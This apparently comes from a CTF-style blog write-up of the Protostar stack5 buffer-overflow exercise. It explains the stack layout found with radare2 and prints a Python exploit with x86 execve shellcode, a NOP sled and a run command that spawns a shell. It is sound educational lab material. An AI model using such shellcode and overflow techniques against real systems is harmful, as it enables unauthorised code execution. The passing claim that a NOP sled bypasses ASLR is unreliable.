 ```yaml
---
layout: post
title: "stack5 Protostar writeup"
categories: protostar
---
```


I started solving Protostar from Exploit Exercises and this will be a writeup for [stack level 5](https://exploit-exercises.com/protostar/stack5).

When we check the disassembly of `main` with radare,
![disassembly](/data/stack5/stack5.png)

(Press `p` in visual graph mode to show the address offset)

Function `gets` is called for for variable `local_10h` at `esp+0x10`. Also, instruction at `0x080483ca` shows that stack space for current fucntion's local variables will be `0x50`. Stack will look like this.

![stack layout](/data/stack5/stack_layout.png)

Now if we write 0x48 bytes, last 4 bytes will be the new return address and code flow will be updated.


Using shellcode
---------------

Let us write the shellcode on the stack and update the `return` address to the starting of this shellcode. If you want to know more about shellcodes check this [tutorial](http://www.vividmachines.com/shellcode/shellcode.html).

We will use [this](http://shell-storm.org/shellcode/files/shellcode-811.php) shellcode.
Note: It is an x86 binary.

#### Exploit
- Write 76 bytes of padding for filling stack space. (0x44 i.e 64 and 12 extra bytes due to memory alignment at `0x080483c7`)  
- 4 byte address to starting of shellcode.
- Shellcode

But problem may arise if ASLR (which is not the case here) is active thus we add `nop` sled after the return address. This will help us bypass ASLR.

File: [exploit.py](/data/stack5/exploit_shellcode.py)
```
#! /usr/bin/python2.7
import sys
import struct

stack = struct.pack("I", 0xbffff78c + 100)

nop = '\x90' * 200
sc = "\x31\xc0\x50\x68\x2f\x2f\x73"\
     "\x68\x68\x2f\x62\x69\x6e\x89"\
     "\xe3\x89\xc1\x89\xc2\xb0\x0b"\
     "\xcd\x80\x31\xc0\x40\xcd\x80"

pad = 'A' * 76

print pad+stack+nop+sc
```

Run:

`(python exploit.py 100; cat -) | /opt/protostar/bin/stack5`

This will give us a shell.

##### Explaination
- We will place 76 As and return address, nop sled and shellcode on stack.
- New return address will point to shellcode (or nop sled before shellcode)
- Upon end of main, code flow will redirect to shellcode thus popping a shell.
- `cat -` is to make sure the piped input is not reaching EOF thus preventing the shell from exiting.


Using ret2libc
--------------
Will update this soon. Check the exploit [here](/data/stack5/exploit_ret2libc.py)
